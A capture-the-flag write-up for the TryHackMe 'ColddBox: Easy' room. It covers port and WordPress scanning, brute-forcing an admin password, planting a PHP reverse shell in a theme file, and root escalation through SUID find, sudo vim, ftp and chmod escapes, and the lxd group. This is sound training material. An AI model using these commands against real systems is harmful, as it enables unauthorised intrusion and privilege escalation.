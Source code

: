 # [ColddBox: Easy](https://tryhackme.com/room/colddboxeasy)

## Getting a shell

First of all, `nmap`

```
# Nmap 7.91 scan initiated Sun Jul 18 06:27:20 2021 as: nmap -vvv -p 80,4512 -sCV -oA init 10.10.200.151
Nmap scan report for box.ip (10.10.200.151)
Host is up, received conn-refused (0.28s latency).
Scanned at 2021-07-18 06:27:21 UTC for 21s

PORT     STATE SERVICE REASON  VERSION
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
4512/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDngxJmUFBAeIIIjZkorYEp5ImIX0SOOFtRVgperpxbcxDAosq1rJ6DhWxJyyGo3M+Fx2koAgzkE2d4f2DTGB8sY1NJP1sYOeNphh8c55Psw3Rq4xytY5u1abq6su2a1Dp15zE7kGuROaq2qFot8iGYBVLMMPFB/BRmwBk07zrn8nKPa3yotvuJpERZVKKiSQrLBW87nkPhPzNv5hdRUUFvImigYb4hXTyUveipQ/oji5rIxdHMNKiWwrVO864RekaVPdwnSIfEtVevj1XU/RmG4miIbsy2A7jRU034J8NEI7akDB+lZmdnOIFkfX+qcHKxsoahesXziWw9uBospyhB
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKNmVtaTpgUhzxZL3VKgWKq6TDNebAFSbQNy5QxllUb4Gg6URGSWnBOuIzfMAoJPWzOhbRHAHfGCqaAryf81+Z8=
|   256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE/fNq/6XnAxR13/jPT28jLWFlqxd+RKSbEgujEaCjEc
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 18 06:27:42 2021 -- 1 IP address (1 host up) scanned in 22.07 seconds
```

First we'll check out port 80. Scrolling down, we can see that this is a WordPress site, so let's run `wpscan`.

```
$ wpscan --url http://box.ip/ -t 100 -e ap,at,cb,dbe,u1-10,m1-10 -o wpscan
```

From the scan, you should see that the site is using WordPress version 4.1.31 which is marked as insecure, as well as get a few usernames: "c0ldd", "hugo", "philip", and "the cold in person". Let's make note of the usernames for later.


Let's dir-bust

```sh
$ gobuster dir -u http://box.ip/ -w /path/to/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt

/wp-content           (Status: 301) [Size: 305] [--> http://box.ip/wp-content/]
/wp-includes          (Status: 301) [Size: 306] [--> http://box.ip/wp-includes/]
/wp-admin             (Status: 301) [Size: 303] [--> http://box.ip/wp-admin/]
/hidden               (Status: 301) [Size: 301] [--> http://box.ip/hidden/]
/server-status        (Status: 403) [Size: 271]
```

We have a suspicious `/hidden` directory, so let's check it out.

![/hidden](hidden.png)

We see here that the user "c0ldd" seems to be able the change another user's password, meaning they likely have administrative privileges, making them a high-value target. Let's try brute-forcing his password.

```sh
wpscan --url http://box.ip/ -U users -P /path/to/rockyou
```

With this, we have c0ldd's password and can log in. Let's check our current account at `/wp-admin/users.php`.

![users.php](users.png)

As Administrator, we can edit a theme file to get Remote Code Execution. [Here](https://dasith.works/wordpress-admin-to-rce/)'s a good article on the exploit.

To exploit, first, we'll edit a theme's PHP file to add our shell and activate the code. In this case, I'll be changing the 404 page. (Replace `10.10.10.10` with your own IP)

![](rce1.png)
![](rce2.png)
![](rce3.png)

After updating the file with a PHP reverse shell, run a listener and go to `/wp-content/themes/{themename}/{fileyouselected}.php` (in my case, `http://box.ip/wp-content/themes/twentyfifteen/404.php`) to activate the payload and get a shell.

## Privilege Escalation

First thing I do after getting a shell is run [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh). A few things in the result stand out:

- The user c0ldd is in the groups adm and lxd and has some interesting processes running
- The file `/var/www/html/wp-config.php` has credentials
- `/usr/bin/find` has a SUID bit

### `find` with SUID

The easiest thing here is `find` with a SUID bit. [GTFObins](https://gtfobins.github.io/gtfobins/find/#suid) shows us how to escalate with it.

```sh
/usr/bin/find . -exec /bin/bash -p \; -quit
```

### Password re-use

Looking at `/var/www/html/wp-config.php`, we have credentials for the user "c0ldd".

```sh
$ cat /var/www/html/wp-config.php | grep -iP -A 10 -B 10 password

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', REDACTED);
```

With this password, we're able to log into SSH as c0ldd. Running `sudo -l` gives us a few binaries we can run with `sudo`.

 ```sh
c0ldd@ColddBox-Easy:~$ sudo -l
[sudo] password for c0ldd:
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```

- From inside `sudo vim`, we can get a shell by running `:!/bin/bash`
- With `sudo chmod`, we can change file permissions, as well as give `bash` an SUID bit
- Inside `sudo ftp`, we can get a shell with `!/bin/bash`

Additionally, the user c0ldd is in the `lxd` group which we can use to mount everything in `/` and modify them as root which I did in the room [Gaming Server](https://github.com/vulns-are-features-too/tryhackme-writeups/tree/master/gamingserver).
